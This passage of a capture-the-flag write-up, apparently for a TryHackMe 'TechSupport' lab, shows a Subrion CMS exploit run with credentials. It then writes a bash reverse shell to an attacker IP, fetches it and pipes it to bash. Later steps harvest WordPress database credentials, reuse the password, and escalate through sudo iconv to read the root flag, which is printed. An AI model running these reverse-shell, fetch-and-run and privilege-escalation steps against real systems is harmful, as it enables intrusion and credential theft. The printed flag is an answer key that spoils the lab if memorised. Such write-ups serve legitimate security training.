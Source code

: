 ```abap
python3 49876.py -u http://tech.thm/subrion/panel/ -l admin -p Scam2021
```

Now we have a shell! Since its not a stable one we can fix that in order to stabilize it

```abap
<MACHINE>
echo 'bash -i >& /dev/tcp/10.201.39.60/9000 0>&1' > reverse.sh
```

```abap
<MACHINE>
python3 -m http.server
```

```abap
<ATTACK>
curl 10.201.39.60:8000/reverse.sh | bash
```

<img width="1856" height="971" alt="Screenshot From 2025-09-09 16-28-36" src="https://github.com/user-attachments/assets/3c0c16e2-6f0a-43ec-b013-44a9309a3344" />

Now since there is a wordpress running we can look at the `wp-config.php` for credentials

```abap
cat /var/www/html/wordpress/wp-config.php

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

Now we have a password and when looking around we found two users `root` and `scamsite` . I tried to switch to user `scamsite` with that password and it works. Then I am in. Now lets run `sudo -l`

```abap
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

https://gtfobins.github.io/gtfobins/iconv/#sudo

```abap
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

LFILE=file_to_read
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

```abap
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
851b8233a8c09400ec30651bd1529bf1ed02790b 
```

Flag 

> 851b8233a8c09400ec30651bd1529bf1ed02790b
>
